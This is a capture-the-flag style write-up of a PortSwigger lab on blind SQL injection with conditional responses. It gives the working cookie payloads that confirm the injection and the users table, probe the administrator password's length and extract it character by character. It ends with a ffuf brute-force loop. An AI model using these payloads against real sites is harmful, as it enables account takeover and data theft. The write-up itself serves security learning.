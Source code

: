 https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses

### Confirming SQLI
So geting a deep understanding of the lab (in this case is just read the description), we know that the cookie is being used in the SQL database, so we will do the injection there.
After do more than one request a 'Welcome back' should be displayed, to confirm the SQL injection lets do a simple boolean condition:
```Cookie
TrackingId=xyz' AND '1'='2
```
If this didn't display the welcome we confirm the SQLI vulnerability, because the condition is evaluated as false so the cookie isn't valid, and as the 'Welcome back' paragraph depends on this, simply it isn't displayed.

### Confirming USERS table
Using this payload:
```cookie
TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a
```

`(SELECT 'a' FROM users LIMIT 1)` this is **fetch a Single Row** (`LIMIT 1`), and it's selecting the letter 'a' from the users table, so if there's any table this will be truly, so `(SELECT 'a' FROM users LIMIT 1)='a'` would be truth it there's any row on the **users table**.

So here we are using the AND operator, this means the query returns true if both conditions (the cookie which is truly) and the sub-query are truly, then the 'welcome' will be displayed.
The query resulting would look like:
```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId='xyz' AND (SELECT 'a' FROM users LIMIT 1)='a'
```

### Confirming the existing of administrator (row)
Now instead of fetch a sengle row let's select the row where the **username column** it's equal to admin:
```sql
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a
```

**Resulting query**:
```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a'
```
As the query is truly we’ll see “Welcome back,” indicating `administrator` is a valid user.

### Determining the password of administrator row
Now by using the subquery `(SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)` we are selcting the row from users table where it's a username column equals to "administrator" string, which we confirm previously it's true, and we are checking whether the length of the string from the password column (all in the same row) it's bigger than one.
The **payload** is 
```sh
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a
```
and this is selecting the a letter of administrator, this sub-query will return the constant value `'a'` only if a row exists in the `users` table where `username = 'administrator'`. So if username administrator do not exists then the request will be a false and "welcome" will be never displayed.
**Resulting query**:
```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a'
```
If it's equal or less nothin be displayed.

### Extract the password
```sql
TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a
```
By using `SUBSTRING(password,1,1)` we are extracting the single character from the password column the argument 'password' specifies the column to extract the sub-string from, the 1 is the starting position, and the second 1 specifies the length, or number of characters to extract (1 = only one character).
So we are selecting a character from the users table where the username is equal to administrator, and that will return true if the character we are matching the correct letter.
**Resulting query**:
```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a'
```
### Solution
To solve the lab do in the terminal (password.txt should be empty):
```sh
for (( i=1; i<=20; i++ )); do
ffuf -u "https://YOUR_LAB_ID.web-security-academy.net/filter?category=Corporate+gifts" -w /usr/share/seclists/Fuzzing/alphanum-case.txt -v  -H "Cookie: TrackingId=YOUR_COOKIE' AND (SELECT SUBSTRING(password,$i,1) FROM users WHERE username='administrator')='FUZZ; session=YOUR_COOKIE" -ac -s >>./password.txt
done
cat password.txt | tr -d "\n" | xclip -selection clipboard
```
and paste the password

